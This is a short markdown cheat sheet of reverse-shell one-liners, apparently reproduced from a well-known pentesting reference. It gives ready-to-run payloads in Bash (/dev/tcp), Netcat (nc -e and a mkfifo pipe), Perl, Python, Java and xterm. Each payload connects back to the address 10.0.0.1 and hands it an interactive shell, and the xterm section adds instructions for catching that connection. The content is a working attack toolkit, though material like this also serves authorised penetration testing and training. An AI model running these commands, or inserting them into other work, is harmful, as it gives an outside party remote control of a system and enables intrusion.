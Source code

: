 # Reverse Shells Cheet Sheet

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}



## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## XTERM

<pre class="language-bash"><code class="lang-bash"><strong># One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
</strong>xterm -display 10.0.0.1:1

# To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
Xnest :1

# You’ll need to authorise the target to connect to you (command also run on your host):
xhost +targetip
</code></pre>
